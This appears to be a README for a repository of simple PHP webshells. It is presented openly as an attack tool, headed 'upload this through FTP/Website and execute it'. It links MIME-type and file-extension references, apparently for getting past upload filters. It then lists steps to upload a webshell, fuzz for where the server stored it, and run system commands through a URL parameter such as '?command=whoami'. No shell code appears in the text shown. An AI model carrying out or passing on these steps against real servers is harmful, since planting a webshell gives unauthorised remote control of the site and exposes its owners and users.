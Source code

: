 <h1>**Simple PHP RCE Webshells, upload this through FTP/Website and execute it.**</h1>

Resources: 
Mime Types: https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types

File Extensions: https://fileinfo.com/filetypes/common

File Extensions v2: https://www.geeksforgeeks.org/list-of-file-formats/

```
#EXECUTION
1. Upload
2. Backtrack and find out where the file is stored (you may have to fuzz for it)
3. If you have found it, for example "httpx://GR1FF1N.com/files/avatars/images/webshell.php"
4. To execute you need to run the following URL: "httpx://GR1FF1N.com/files/avatars/images/webshell.php?command=whoami"
```
